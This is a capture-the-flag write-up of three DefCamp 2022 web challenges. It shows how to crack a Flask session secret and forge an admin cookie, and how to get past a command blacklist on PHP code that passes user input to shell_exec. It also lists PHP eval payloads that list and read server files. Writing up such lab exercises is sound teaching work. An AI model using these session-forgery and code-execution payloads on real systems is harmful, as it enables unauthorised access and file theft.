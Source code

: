 # Defcamp-ctf22-writeups
writeups of web challenges

# 1. Webintro
link: 34.159.129.6:30873
Description: Are you an admin?

Note: Access Denied is part of the challenge.

Flag format: CTF{sha256}

## Solution: 
+ The website contain a cookie named `session` whose value is `eyJsb2dnZWRfaW4iOmZhbHNlfQ.YgdEAA.3it3aK6Fidz3t4cetERsGDoO7HA`
+ When we base64_decoded it, we got a value like this: `{"logged_in":false} t@�+whDl:p`
+ But we can see that the cookie is signed, so we have to unsign it and put that token value in the cookie to get the flag
+ Server: Werkzeug/2.0.3 Python/3.6.9, So we need to try `flask-unsign`.
+ ```flask-unsign --decode --cookie 'eyJsb2dnZWRfaW4iOmZhbHNlfQ.YgdEAA.3it3aK6Fidz3t4cetERsGDoO7HA'
   {'logged_in': False}
+ To obtain the secret key, we used the following command
 `` flask-unsign --unsign --cookie 'eyJsb2dnZWRfaW4iOmZhbHNlfQ.YgdEAA.3it3aK6Fidz3t4cetERsGDoO7HA' --wordlist /home/avanthika/Downloads/rockyou.txt --no-literal-eval
[*] Session decodes to: {'logged_in': False}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 128 attempts
b'password'`` 

+ So, we obtained the secret key as `password`. Now we need to make our own custom session data, for that we can use `--sign`
+  ```flask-unsign --sign --cookie "{'logged_in': True}" --secret 'password'
   eyJsb2dnZWRfaW4iOnRydWV9.YgdMSA.8IA2CQFMGIDO3XcACg3TtJ4WlM8```
+ Paste the above token in the session cookie to get the flag.
+ Flag: `CTF{66bf8ba5c3ee2bd230f5cc2de57c1f09f471de8833eae3ff7566da21eb141eb7}`

## Reference:
https://pypi.org/project/flask-unsign/ <br />
https://blog.paradoxis.nl/defeating-flasks-session-management-65706ba9d3ce<br />

# 2. Paracode
link: 34.159.7.96:30039<br />
Description: I do not think that this API needs any sort of security testing as it only executes and retrieves the output of ID and PS commands.<br />

Flag format: CTF{sha256}

## Solution:
+ Opening the link gives the following php code
```
<?php
require __DIR__ . '/flag.php';
if (!isset($_GET['start'])){
    show_source(__FILE__);
    exit;
} 

$blackList = array(
  'ss','sc','aa','od','pr','pw','pf','ps','pa','pd','pp','po','pc','pz','pq','pt','pu','pv','pw','px','py','pq','pk','pj','pl','pm','pn','pq','pf','pz','pv','pw','px','py','pq','pk','pj','pl','pm','pn','pq','pf','pz','pv','pw','px','py','pq','pk','pj','pl','pm','pn','pq','pf','pz','pv','pw','px','py','pq','pk','pj','pl','pm','pn','pq','pf','pz','pv','pw','px','py','pq','pk','pj','pl','pm','pn','pq','pf','pz','pv','pw','px','py','pq','pk','pj','pl','pm','pn','pq','pf','pz','pv','pw','px','py','pq','pk','pj','pl','pm','pn','pq','pf','pz','pv','pw','px','py','pq','pk','pj','pl','pm','pn','pq','pf','pz','pv','pw','px','py','pq','pk','pj','pl','pm','pn','pq','pf','pz','pv','pw','px','py','pq','pk','pj','pl','pm','pn','pq','pf','pz','pv','pw','px','py','pq','pk','pj','pl','pm','pn','pq','pf','pz','pv','pw','px','py','pq','pk','pj','pl','pm','pn','pq','pf','pz','pv','pw','px','py','pq','pk','pj','pl','pm','pn','pq','pf','pz','pv','pw','px','py','pq','pk','pj','pl','pm','pn','pq','ls','dd','nl','nk','df','wc', 'du'
);

$valid = true;
foreach($blackList as $blackItem)
{
    if(strpos($_GET['start'], $blackItem) !== false)
    {
         $valid = false;
         break;
    }
}

if(!$valid)
{
  show_source(__FILE__);
  exit;
}

// This will return output only for id and ps. 
if (strlen($_GET['start']) < 5){
  echo shell_exec($_GET['start']);
} else {
  echo "Please enter a valid command";
}

if (False) {
  echo $flag;
}

?>
```
+ In this challenge, we can see that the we should find an appropriate `2 letter command` to get the flag(given the length should be less than 5)
+ So, bruteforcing with all the 2 letter command, we found that `m4 *` command gives the flag.
+ So, the url becomes http://34.159.7.96:30039/?start=m4%20* 
+ Checking the source page of the site, gives the flag.
+ `$flag = "791b21ee6421993a8e25564227a816ee52e48edb437909cba7e1e80c0579b6be";`

## Reference:
https://www.davekb.com/browse_computer_tips:linux_two_letter_commands:txt

# 3. Casual Defence:
link: 35.246.158.241:30568<br />
Description:In light of recent events related to the cyber attack, we have prepared a mirror environment of the defaced website so you can have a look. Moreover, both the mirror and production environments retain a copy of the defacement file and up-to-date security policies that prevent any access to our systems.<br />

Flag format: CTF{sha256}
## Solution:
+ We use the `cmd` to implement commands in the url.
 Payloads:
 ```
 http://35.246.158.241:30568/?cmd=print_r(chr(46));
 http://35.246.158.241:30568/?cmd=print_r(scandir(chr(46)));
 http://35.246.158.241:30568/?cmd=print_r(current(scandir(chr(46))));
 http://35.246.158.241:30568/?cmd=print_r(next(scandir(chr(46))));
 http://35.242.219.87:31217/?cmd=print_r(end(scandir(chr(46))));
 http://35.246.158.241:30568/?cmd=print_r(array_reverse(scandir(chr(46))));
 http://35.246.158.241:30568/?cmd=print_r(next(array_reverse(scandir(chr(46)))));
 http://35.246.158.241:30568/?cmd=show_source(next(array_reverse(scandir(chr(46)))));
 ```
 From the last payload we get the flag,
 Flag: `CTF{40c7bf1cd2186ce4f14720c4243f1e276a8abe49004b788921828f13a026c5f1}`
